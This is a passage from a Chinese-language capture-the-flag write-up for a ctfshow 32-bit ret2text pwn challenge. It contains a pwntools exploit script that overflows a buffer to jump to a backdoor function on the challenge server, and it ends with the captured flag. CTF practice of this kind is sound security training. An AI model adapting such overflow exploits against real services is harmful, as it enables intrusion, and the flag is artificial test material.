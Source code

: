 



后门：

![image-20241101145353222](../_media/image-20241101145353222.png)



很容易就得到exp：



```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28197

p = remote(ip,port)

payload = b'a'*(0x12+0x04) + p32(0x08048521)
p.recvuntil(b'Just very easy ret2text&&32bit')

p.sendline(payload)

p.interactive()
```



拿到flag

```
ctfshow{684d6a77-bd58-40c8-b783-664d4f5bbacf}
```





## 38. pwn38
